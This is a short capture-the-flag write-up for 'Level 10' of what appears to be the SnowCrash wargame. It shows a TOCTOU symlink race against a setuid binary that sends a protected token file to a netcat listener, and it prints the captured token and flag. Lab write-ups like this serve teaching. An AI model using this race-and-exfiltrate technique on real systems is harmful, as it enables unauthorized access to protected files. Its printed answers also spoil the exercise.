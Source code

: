 # Level 10

## step 1 : analyze level10

## step 2 : find host
```
$ ifconfig 
192.168.56.1
```
conversion:
192 * 2^24 + 168  * 2^16 + 56 * 2^8 + 1 = 3232249857

## step 3 : run the server and a client to receive messages
```
$ gcc mini_serv ; ./a.out 6969
$ nc 192.168.56.1 6969
```

## step 4 : pass right barrage of level08
run link.sh in SnowCrash
*this script links token and another random file has /tmp/link in loop to pass right barrage of level08*
```
$ sh link.sh
```

## step 4 : catch the token
while it's not token that is executed run :
```
$ ./level10 /tmp/link 192.168.56.1
```
token : woupa2yuojeeaaed06riuj63c

## step 5 :  get level11 password
```
$ su flag10
$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```
